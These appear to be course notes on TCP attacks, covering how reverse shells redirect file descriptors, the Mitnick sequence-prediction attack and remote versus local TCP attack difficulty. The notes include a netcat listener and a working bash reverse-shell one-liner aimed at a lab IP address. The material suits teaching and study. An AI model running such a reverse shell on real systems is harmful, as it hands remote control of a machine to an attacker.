 - B runs shell, `/bin/bash/`
  - Attacker has control of shell
  - input device
    - file descriptor: 0
  - output device
    - file descriptor: 1,2
### Reverse Shell
- for the attacker to control the shell,
  - redirect input/output file descriptors to other machine
- TCP server
  - `nc -l 9090 -v`
  - whatever you receive is going to print out
  - whatever you send is going to 
  - redirect input/output to tcp server

#### reverse shell
- `2>&1` error to input
- `0<&1` input to output
`/bin/bash -i > /dev/tcp/10.0.2.7/9090 2>&1 0<&1`

## 5.11 The Mitnick Attack

### Mitnick Attack: Technical Details

- A
  - `rlogin`
- B
  - `rshosts`: allow A without login
- Mitnick attacker
  - send `SYN`,`ACK` to to B from A
  - B `ACK` to A
  - A doesn't expect `ACK`, so A sends `RST` to B to terminate connection
  - Mitnick launch denial of service on A
    - A cannot send `RST`
    - Mitnick `ACK` `y+1`
      - guess initial sequence number because it was predictable

## 5.12 Defending against TCP Attacks

### Defend against TCP Attacks
- Local
  - A and B are on the same network
  - easy to get necessary tcp headers
    - sniffing
- Remote
  - easy headers
    - source IP
    - dest IP
    - if telnet, dest port 23
  - harder headers
    - source port (can guess)
    - sequence number (can guess)
